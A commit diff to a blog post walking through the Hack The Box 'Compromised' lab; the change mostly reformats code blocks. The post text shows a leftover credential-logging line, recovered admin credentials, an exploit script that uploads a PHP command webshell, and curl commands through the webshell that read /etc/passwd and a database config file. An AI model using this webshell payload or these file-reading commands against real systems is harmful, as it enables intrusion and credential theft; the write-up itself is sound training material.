

Before and after one commit to darksec1337/darksec1337.github.io, a Jekyll site: the page built from _posts/2021-01-23-Compromised.md, in a window 1280 px wide and 1400 px high, scrolled down 7633 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2021-01-23-Compromised.md

````diff
--- a/_posts/2021-01-23-Compromised.md
+++ b/_posts/2021-01-23-Compromised.md
@@ -140,7 +140,8 @@ This file isn’t on the host anymore, but perhaps was put up there when the box
 
 I spent far too long looking for a config file that would contain the password. I found a password for the database in includes/config.inc.php:
 
-```// Database
+```bash
+// Database
   define('DB_TYPE', 'mysql');
   define('DB_SERVER', 'localhost');
   define('DB_USERNAME', 'root');
@@ -148,21 +149,26 @@ I spent far too long looking for a config file that would contain the password.
   define('DB_DATABASE', 'ecom');
   define('DB_TABLE_PREFIX', 'lc_');
   define('DB_CONNECTION_CHARSET', 'utf8');
-  define('DB_PERSISTENT_CONNECTIONS', 'false');```
+  define('DB_PERSISTENT_CONNECTIONS', 'false');
+```
 
 The password “changethis” could very well be wrong in this case. It certainly doesn’t work to get into the admin panel.
 
 Eventually some recursive grep found this in shop/admin/login.php:
 
-```if (isset($_POST['login'])) {
+```bash
+if (isset($_POST['login'])) {
     //file_put_contents("./.log2301c9430d8593ae.txt", "User: " . $_POST['username'] . " Passwd: " . $_POST['password']);
     user::login($_POST['username'], $_POST['password'], $redirect_url, isset($_POST['remember_me']) ? $_POST['remember_me'] : false);
-  }```
+  }
+```
 
 That commented line is interesting. Given the theme of this box is likely that it’s already compromised, maybe the other hacker left that behind to collect creds. That log file is still on the server:
 
-```root@kali# curl http://10.10.10.207/shop/admin/.log2301c9430d8593ae.txt
-User: admin Passwd: theNextGenSt0r3!~```
+```bash
+root@kali# curl http://10.10.10.207/shop/admin/.log2301c9430d8593ae.txt
+User: admin Passwd: theNextGenSt0r3!~
+```
 
 Logging in at /shop/admin/login.php with those creds works:
 
@@ -184,8 +190,10 @@ There’s client-side filtering requiring a file with a .xml extension, but I ca
 
 I’ll use the exploit script from here out, but it would be just as easy to do things manually. Running the exploit from searchsploit doesn’t completely work, returning an empty line where the output should be:
 
-```root@kali# python 45267.py -t http://10.10.10.207/shop/admin/ -u admin -p 'theNextGenSt0r3!~'
-Shell => http://10.10.10.207/shop/admin/../vqmod/xml/S59WW.php?c=id```
+```bash
+root@kali# python 45267.py -t http://10.10.10.207/shop/admin/ -u admin -p 'theNextGenSt0r3!~'
+Shell => http://10.10.10.207/shop/admin/../vqmod/xml/S59WW.php?c=id
+```
 
 The exploit is nice enough to give me the address of the webshell, and visiting it returns an empty page:
 
@@ -210,7 +218,8 @@ root@kali# curl -v http://10.10.10.207/shop/admin/../vqmod/xml/S59WW.php?c=id
 
 So the upload succeeded, but the execution isn’t working. I can check that a different way by modifying the script. It’s this line that sets the payload:
 
-```files = {
+```bash
+files = {
         'vqmod': (rand + ".php", "<?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); } ?>", "application/xml"),
         'token':one,
         'upload':(None,"Upload")
@@ -222,21 +231,26 @@ I’ll change that to something more benign:
         'vqmod': (rand + ".php", "<?php echo 'darksec was here'; } ?>", "application/xml"),
         'token':one,
         'upload':(None,"Upload")
-    }```
+    }
+```
 
 it works:
 
-```root@kali# python 45267.py -t http://10.10.10.207/shop/admin/ -u admin -p 'theNextGenSt0r3!~'
+```bash
+root@kali# python 45267.py -t http://10.10.10.207/shop/admin/ -u admin -p 'theNextGenSt0r3!~'
 Shell => http://10.10.10.207/shop/admin/../vqmod/xml/XPKU4.php?c=id
-darksec was here```
+darksec was here
+```
 
 phpinfo() will provide useful information about the box:
 
-```files = {
+```bash
+files = {
         'vqmod': (rand + ".php", '<?php phpinfo();  ?>', "application/xml"),
         'token':one,
         'upload':(None,"Upload")
-    }```
+    }
+```
 
 ```bash
 root@kali# python 45267.py -t http://10.10.10.207/shop/admin/ -u admin -p 'theNextGenSt0r3!~'
@@ -279,25 +293,29 @@ files = {
 
 After running that, I can list a directory:
 
-```root@kali# curl -s -G http://10.10.10.207/shop/admin/../vqmod/xml/1FFFK.php --data-urlencode "dir=/home"
+```bash
+root@kali# curl -s -G http://10.10.10.207/shop/admin/../vqmod/xml/1FFFK.php --data-urlencode "dir=/home"
 Array
 (
     [0] => .
     [1] => ..
     [2] => sysadmin
-)```
+)
+```
 
 This user can’t read in /home/sysadmin.
 
 I can also get a file, like /etc/passwd:
 
-```root@kali# curl -s -G http://10.10.10.207/shop/admin/../vqmod/xml/1FFFK.php --data-urlencode "file=/etc/passwd"
+```bash
+root@kali# curl -s -G http://10.10.10.207/shop/admin/../vqmod/xml/1FFFK.php --data-urlencode "file=/etc/passwd"
 root:x:0:0:root:/root:/bin/bash
 daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
 ...[snip]...
 sysadmin:x:1000:1000:compromise:/home/sysadmin:/bin/bash
 mysql:x:111:113:MySQL Server,,,:/var/lib/mysql:/bin/bash
-red:x:1001:1001::/home/red:/bin/false```
+red:x:1001:1001::/home/red:/bin/false
+```
 
 ### Database
 
@@ -305,7 +323,8 @@ It’s really interesting to note that in the /etc/passwd file, the user mysql h
 
 Looking at mysql’s home directory doesn’t return anything, which indicates a permissions issue. I can try to check out the database, especially to see if it can execute. I’ll pull the config file at the same path I noted in the backup. The DB password is still “changethis”:
 
-```root@kali# curl -s -G http://10.10.10.207/shop/admin/../vqmod/xml/1FFFK.php --data-urlencode "file=/var/www/html/shop/includes/config.inc.php"
+```bash
+root@kali# curl -s -G http://10.10.10.207/shop/admin/../vqmod/xml/1FFFK.php --data-urlencode "file=/var/www/html/shop/includes/config.inc.php"
 <?php
 ...[snip]...
 // Database
@@ -317,7 +336,8 @@ Looking at mysql’s home directory doesn’t return anything, which indicates a
   define('DB_TABLE_PREFIX', 'lc_');
   define('DB_CONNECTION_CHARSET', 'utf8');
   define('DB_PERSISTENT_CONNECTIONS', 'false');
-...[snip]...```
+...[snip]...
+```
 
 I’ll add some code to my PHP that will run DB queries:
 
````
